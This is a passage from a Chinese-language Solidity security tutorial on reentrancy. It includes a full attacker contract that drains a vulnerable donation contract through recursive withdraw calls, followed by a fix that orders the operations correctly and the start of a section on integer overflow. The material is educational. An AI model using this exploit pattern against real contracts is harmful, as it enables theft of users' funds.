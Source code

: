 注意这里的问题是在 withdraw 函数中，我们首先尝试向用户转账，然后才减少他们的余额。这是不安全的，因为转账操作会触发接收方的 receive 或 fallback 函数，这给攻击者提供了机会来调用 withdraw 函数再次提款。

> 现在让我们创建一个攻击者合约，它可以利用这个漏洞：

```
pragma solidity ^0.8.0;

contract Attacker {
    VulnerableDonation donationContract;

    constructor(address _donationAddress) {
        donationContract = VulnerableDonation(_donationAddress);
    }

    fallback() external payable {
        if (address(this).balance > 0) {
            // 递归调用 withdraw 函数，只要还有余额就继续提款
            donationContract.withdraw(address(this).balance);
        }
    }

    function attack() public payable {
        // 第一次调用 donate 函数向捐赠合约存入资金
        donationContract.donate{value: msg.value}();
        // 然后立即调用 withdraw 函数开始重入攻击
        donationContract.withdraw(address(this).balance);
    }
}
```

> 在攻击者合约中，fallback 函数会在接收到资金时自动触发，如果合约中还有余额，它会递归地调用捐赠合约的 withdraw 函数，试图尽可能多地提款，直到没有剩余的资金可以转移为止。
>
> 为了确保合约的安全，正确的做法是在转账前减少用户的余额，这可以通过简单地调整 withdraw 函数的顺序来实现：

```
function withdraw(uint _amount) public {
    require(balances[msg.sender] >= _amount, "Insufficient balance");
    balances[msg.sender] -= _amount;
    // 转账应该在更新状态变量之后
    msg.sender.transfer(_amount);
}
```

> 这样，即使攻击者尝试在转账之前再次调用`withdraw` 函数，他们也会发现自己的余额已经被更新，从而无法再次提款。

## 2. 整数溢出和下溢：

当数学运算的结果超出整数类型所能表示的范围时，会导致数值错误地回绕，这可以被攻击者利用来获取额外的代币或资源。

### 溢出示例

假设我们有一个智能合约，它接收用户存款并存储在一个变量中。如果用户尝试存入的金额加上现有的余额超出了整数的最大值（在Solidity中，`uint256`类型的最大值是2^256-1），就会发生溢出。
